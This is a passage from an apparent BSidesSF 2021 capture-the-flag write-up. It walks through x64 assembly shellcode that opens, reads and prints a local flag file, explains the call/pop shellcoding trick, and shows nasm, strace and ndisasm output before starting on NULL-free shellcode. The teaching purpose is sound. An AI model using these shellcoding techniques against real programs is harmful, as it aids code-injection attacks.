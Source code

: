 <span class="Comment">;;; EXIT</span>
  <span class="Identifier">mov</span> <span class="Identifier">rax</span>, <span class="Number">60</span> <span class="Comment">; Syscall 60 = exit</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdi</span>, <span class="Number">0 </span><span class="Comment">; Exit with code 0</span>
  <span class="Identifier">syscall</span> <span class="Comment">; Perform an exit</span>
</pre>
Or if you don't want to copy and paste, you can grab the file <a href="https://github.com/BSidesSF/ctf-2021-release/tree/main/runme/solution">from the solution folder</a>.

One of the weirdest things is that "call" business at the top. What's happening is that the <tt>call</tt> instruction pushes the next address onto the stack then jumps to the specified address. Typically you'd then use <tt>ret</tt> to return to that address, but we don't want to return to it. We want a pointer to it! So instead of consuming the address using <tt>ret</tt>, we pop it into a register to get a pointer to the flag path. This is a long-winded way to get the value of <tt>eip</tt>, the instruction pointer, which we can't normally access - it's a super common shellcoding trick, and we'll see it again on runme3 to build self-modifying code!

To run it, make sure you have a flag.txt file handy, assemble with <tt>nasm</tt>, and give it a whirl:
<pre>$ mkdir -p /home/ctf/
$ echo 'CTF{fake_flag}' &gt; /home/ctf/flag.txt
$ nasm -o solution.bin solution.asm
$ ./runme &lt; solution.bin
Send me x64!!
CTF{fake_flag}
</pre>
You can also use <tt>strace</tt> to see what's going on (or debug if something isn't working.. I did that a lot writing this blog):
<pre>$ strace ./runme &lt; solution.bin
[...]
open("/home/ctf/flag.txt", O_RDONLY)    = 3
read(3, "CTF{fake_flag}\n", 30)         = 15
write(1, "CTF{fake_flag}\ntxt\0_\276\0\0\0\0\272\0\0\0\0", 30CTF{fake_flag}
txt_) = 30
exit(0)                                 = ?
</pre>
The same four syscalls from our source! You can see that open() runs, and returns 3 (the file handle). Then read runs, using the file handle 3, and returns 15 (the length of the flag). Then write() is called, with the file descriptor set to "1", which writes to stdout. And then we exit cleanly (that's optional).
<h2>Runme2</h2>
Runme2 adds a very common restriction: no NULL bytes! It's so common, in fact, that most shellcode you can find online is already free of NULL bytes! But if you look at the code we wrote for runme1, it looks like this:
<pre>$ ndisasm -b64 solution.bin 
00000000  B802000000        mov eax,0x2
00000005  E813000000        call 0x1d
0000000A  2F                db 0x2f
0000000B  686F6D652F        push qword 0x2f656d6f
00000010  63                db 0x63
00000011  7466              jz 0x79
00000013  2F                db 0x2f
00000014  666C              o16 insb
00000016  61                db 0x61
00000017  672E7478          cs jz 0x93
0000001B  7400              jz 0x1d
0000001D  5F                pop rdi
0000001E  BE00000000        mov esi,0x0
00000023  BA00000000        mov edx,0x0
00000028  0F05              syscall
0000002A  57                push rdi
0000002B  50                push rax
0000002C  B800000000        mov eax,0x0